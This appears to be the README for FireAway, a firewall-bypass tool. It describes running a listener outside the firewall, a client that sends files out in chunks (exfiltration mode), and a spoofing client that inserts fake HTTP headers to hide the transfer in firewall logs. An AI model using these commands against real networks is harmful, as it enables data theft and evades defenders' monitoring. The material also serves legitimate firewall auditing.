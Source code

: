 FireAway-Next Generation Firewall Bypass Tool
=========
*v0.1*

Fireaway is a tool for auditing, bypassing, and exfiltrating data against layer 7/AppID inspection rules on next generation firewalls.  These tactics are based on the principle of having to allow connections to establish through the NGFW in order to see layer 7 data to filter, as well as spoofing applications to hide communication channels inside the firewall logs as normal user traffic, such as Internet surfing.

 **Starting the FireAway Server:**
Typically the FireAway server would be started on the egress side of the firewall (such as a server on the Internet), and listen on a port believed to be closed to see if any application based rules allow traffic out on this port:
 
 ```
python fa_server.py <port to listen on>
```

All data received by the server on this port will be saved to the file ReceivedData.txt in the directory the server was launched from.  If the server detects differing sizes in the amount of data received (indicating firewall filtering has kicked in), this output will be shown on the server console:

  ```
Got the same or lower amount of data on two consecutive runs.  If sending test data, maximum data leak size may have been reached.
```


**Starting the FireAway Client/Application Spoofer:**
The FireAway client has two modes:
 
 - Test mode (mode 0)-Send random data in incrementing chunk sizes to see how much data can be sent before the firewall AppID engages and stops traffic flow.
 - Exfiltration mode (mode 1)-Open a file and send it in chunks through the firewall.

To start the basic client:

  ```
python fa_client.py <FireAway server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

To start the application spoofing client:
  ```
python fa_spoof.py <FireAway Server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

Application spoofing will randomly insert HTTP headers with the data chunks to pollute the logs with various applications in order to mask the data exfiltration.
